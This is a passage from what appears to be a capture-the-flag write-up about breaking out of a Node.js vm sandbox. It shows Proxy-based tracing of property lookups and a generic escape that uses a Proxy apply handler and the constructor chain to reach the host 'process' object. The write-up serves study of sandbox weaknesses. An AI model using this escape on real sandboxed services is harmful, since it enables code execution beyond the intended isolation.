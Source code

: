 ### Easier ways to path through code and see lookups
We can also use Proxy to find code paths and trace property access on our object. We can modify the challenge code to provide access to logging.

```js
const unserialize = (data) => new vm.Script(`"use strict"; (${data})`).runInContext(vm.createContext({console}, ctx), { timeout: 250 });
```

Then we can set up a Proxy on our returned object that logs all the property accesses recursively:
```js
let a = {};
let handler = {
    get(o, k) {
        console.log("get", k);
    	return o;
    }
}
a = new Proxy(a, handler);

return a;
```

Running this leads us down to `getKeyObjectHandle`, which also throws an Error that turns out to cause an inspect lookup, which could be exploited just like above!
```
> node test.js
get Symbol(kKeyType)
get type
get type
TypeError [ERR_CRYPTO_INVALID_KEY_OBJECT_TYPE]: Invalid key object type {}, expected private.
```

### Finally solving it with none of the above
While creating this writeup, I realized there is a more generic approach that can leak an object into our context that can be triggered with any property lookup on our object. Remember earlier when I said we can't use a getter because `arguments` itself is an special object? Although the arguments to a getter are not useful, the getter is a function call itself, and we saw with an above solution that by hijacking the argument to `apply` in a Proxy handler, we can escape the sandbox! Because any property lookup can trigger a Proxy get call or getter, and that function call can _itself_ be a Proxy with an `apply` handler, we can escape the sandbox with any property lookup, without even knowing anything about the internals.

```js
let a = function() { return ""; };
handler = {
    apply: function(a, b, c) {
        let process = c.constructor.constructor('return process')();
        // See later section from how to leak flag
    }
}
a = new Proxy(a, handler);
let handler2 = {
    get: a
}
let b = {};
b = new Proxy(b, handler2);
return b;
```
